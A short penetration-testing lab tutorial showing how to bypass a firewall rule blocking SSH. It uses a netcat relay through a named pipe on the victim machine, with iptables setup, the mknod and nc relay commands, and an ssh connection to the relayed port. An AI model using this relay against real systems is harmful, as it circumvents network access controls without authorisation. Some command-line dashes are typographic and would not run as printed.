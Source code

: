 # Bypassing Firewall with Forward Relays

## Lab Setup

### Block port for incoming TCP packet on Victim Machine

```
sudo iptables -A INPUT -s <attacker ip> -p tcp --dport 22 -j DROP
```

### Allow TCP packet on another port on Victim Machine

```
iptables –I INPUT 1 –s <attacker ip> –p tcp --dport 4444 –j ACCEPT
```

### Check netcat communication between Attacker and Client

#### On Victim Machine

```
nc –v –l –p 4444
```

#### On the Kali Machine

```
nc 192.168.1.7 4444
```



***

## Use Netcat Realy Backpipe to Access SSH Service

The First command makes a special type of file called a FIFO or **named pipe**. We call it backpipe because it is going to carry our responses back through the relay.

Now the second command makes a netcat listener that is allowed through the firewall. This Netcat listener will connect its standard input (0<) to the backpipe. We then forward the standard output of this Netcat listener to Netcat client, which connects to our localhost (127.0.0.1) on TCP port 22 where sshd listens. We then use the forward pipe (1>) to send data and receive responses simultaneously. We need a back and forward pipe because Netcat provides two-way communication.

{% hint style="info" %}
For this you need to have  access to the victim machine.
{% endhint %}

### Victim Machine

```
mknod /tmp/backpipe p
```

* p: Tells the mknod to create a FIFO

```
nc –l –p 4444 0</tmp/backpipe | nc localhost 22 1>/tmp/backpipe
```

* \-l: **Listener**
* **-p: Port**



### Attacker Machine

#### Access SSH Through Netcat Relay

```
ssh msfadmin@10.10.10.3 –p 4444
```

* \-p : **To specify Port**



***

## REFERENCES

* [https://www.hackingarticles.in/bypass-ssh-restriction-by-port-relay/](https://www.hackingarticles.in/bypass-ssh-restriction-by-port-relay/)

